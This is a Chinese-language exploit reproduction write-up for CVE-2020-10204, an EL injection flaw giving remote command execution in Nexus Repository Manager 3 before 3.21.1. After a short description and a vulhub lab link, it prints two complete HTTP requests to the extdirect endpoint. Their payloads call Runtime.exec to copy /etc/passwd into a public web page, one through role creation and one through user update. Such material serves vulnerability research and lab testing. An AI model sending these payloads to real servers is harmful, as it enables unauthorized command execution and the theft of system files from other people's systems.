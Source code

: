 # Nexus Repository Manger extdirect 后台远程命令执行 CVE-2020-10204

# Nexus Repository Manger extdirect 后台远程命令执行 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

## 漏洞影响

```
Nexus < 3.21.1
```

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204



## 漏洞复现

漏洞触发需要任意账户权限



![](/images/202202091857667.png)



该漏洞需要访问更新角色或创建角色接口，登录任意用户后修改 NXSESSIONID



发送请求包执行命令



```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}
```



另一处漏洞点



```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}
```



访问 vuln.html



![](/images/202202091857025.png)

